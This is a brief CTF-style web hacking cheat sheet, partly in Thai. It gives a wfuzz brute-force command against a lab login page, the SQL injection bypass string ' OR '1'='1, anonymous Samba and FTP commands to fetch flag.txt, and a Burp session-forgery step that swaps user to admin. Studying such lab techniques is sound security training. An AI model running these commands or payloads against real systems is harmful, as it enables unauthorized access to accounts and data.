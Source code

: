 #web 
# Bruteforce
## Word List
rockyou.txt
## Wfuzz
### Command
```bash
sudo wfuzz -z file,/home/drasogun/Desktop/password/password.txt -d "username=admin%40dropctf.live&password=FUZZ&login_user=" --hh 0  http://172.18.0.9/login_db.php
```
### Tool
burtsuite เพื่อเอา data ที่ต้องใช้ในคำสั่ง
# Bypass
## SQL Injection
’ OR '1'='1
## Bypass Authentication
Sign in User ที่มีอยู่แล้วเพื่อทับข้อมูลเดิม แล้ว Login User นั้น
# Anonymous Login
## Samba
### Command
```bash
smbclient -L 172.18.0.64
smbclient \\\\172.18.0.64\\public
get flag.txt
```
## FTP
### Command
```bash
ftp 172.18.0.64  (user&password = anonymous)
passive on
get flag.txt
```
# Session Management
## Step
1. Login
2. Burp suit ปลอมแปลง session ตอน login (user=daftpunk → user=admin)